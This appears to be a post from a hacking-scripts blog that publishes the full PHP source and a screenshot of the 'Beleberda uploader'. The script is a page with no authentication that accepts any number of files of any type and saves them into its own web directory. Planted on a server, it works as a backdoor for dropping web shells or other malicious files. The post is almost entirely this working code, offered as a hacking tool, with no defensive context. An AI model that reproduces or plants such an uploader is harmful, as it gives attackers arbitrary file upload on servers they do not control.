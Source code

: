 ```yaml
---
id: 308
title: beleberda uploader script
author: admin
layout: post
guid: http://hackingscripts.com/?p=308
permalink: /beleberda-uploader-script/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

Beleberda uploader script

## Beleberda Uploader Script source code

<pre class="brush: php; title: ; notranslate" title="">&lt;html&gt;

&lt;head&gt;
  &lt;title&gt;bele&lt;/title&gt;
&lt;/head&gt;

&lt;body&gt;
&lt;?php


 if(empty($_GET['Nfiles']))$Nfiles=15;else $Nfiles=$_GET['Nfiles'];
if($_FILES['userfile']['tmp_name'][0]!=''){
	for($i=0;$i&lt;$Nfiles&&$_FILES['userfile']['tmp_name'][$i]!='';$i++){
	$uploaddir = dirname(__FILE__);//'/var/www/uploads/';
	$uploadfile = $uploaddir .'/'. basename($_FILES['userfile']['name'][$i]);
	print "&lt;pre&gt;";
	if (move_uploaded_file($_FILES['userfile']['tmp_name'][$i], $uploadfile)) {
	   print "File is valid, and was successfully uploaded. ";
	   //print_r($_FILES);
	} else {
	   print "Possible fie upload attack!  Here's some debugging info:\n";
	   //print_r($_FILES);
	}
	print "&lt;/pre&gt;";
	}
}
?&gt;
&lt;form action="&lt;?php echo $_SERVER['PHP_SELF'].'?Nfiles='.$Nfiles; ?&gt;" method="post" enctype="multipart/form-data"&gt;
  Send beleberda:&lt;br&gt;
  &lt;?php for($i=0;$i&lt;$Nfiles;$i++){echo '&lt;input name="userfile[]" type="file"&gt;&lt;br&gt;';}?&gt;
  &lt;input type="submit" value="Send files"&gt;
&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;
</pre>

A screenshot of the Beleberda script:<figure id="attachment_392" style="width: 268px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png" alt="beleberda script screenshot" width="268" height="468" class="size-full wp-image-392" />][1]<figcaption class="wp-caption-text">Beleberda script screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png